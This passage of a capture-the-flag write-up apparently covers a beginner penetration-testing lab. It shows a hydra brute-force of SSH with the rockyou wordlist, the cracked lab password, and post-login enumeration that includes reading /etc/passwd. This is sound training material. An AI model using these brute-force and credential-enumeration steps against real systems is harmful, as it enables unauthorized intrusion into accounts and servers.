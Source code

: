 ## 5. What is the username? 
- Take a look at the previous result.

## 6. What is the password?
- Now that we know the username, the password can be crack using hydra.
```
❯ hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.68.193

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-20 22:24:13
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.68.193:22/
[STATUS] 145.00 tries/min, 145 tries in 00:01h, 14344256 to do in 1648:46h, 16 active
[STATUS] 112.67 tries/min, 338 tries in 00:03h, 14344063 to do in 2121:55h, 16 active
[STATUS] 105.43 tries/min, 738 tries in 00:07h, 14343663 to do in 2267:32h, 16 active
[22][ssh] host: 10.10.68.193   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
```

## 7. What service do you use to access the server (answer in abbreviation in all caps)?
- It's obvious, look at the cracking process that we done. What protocol we specify to use?

## 8. Enumerate the machine to find any vectors for privilege escalation
- Login to the user account and enumerate the target.
```
❯ ssh jan@10.10.62.247

jan@basic2:~$ ls

jan@basic2:~$ whoami
jan

jan@basic2:~$ cat /etc/*release
......
VERSION="16.04.4 LTS (Xenial Xerus)"
......

jan@basic2:~$ pwd
/home/jan


jan@basic2:~$ ls -a
.  ..  .lesshst

jan@basic2:~$ cat .lesshst
cat: .lesshst: Permission denied

jan@basic2:~$ id
uid=1001(jan) gid=1001(jan) groups=1001(jan)

jan@basic2:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
kay:x:1000:1000:Kay,,,:/home/kay:/bin/bash
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
jan:x:1001:1001::/home/jan:/bin/bash
```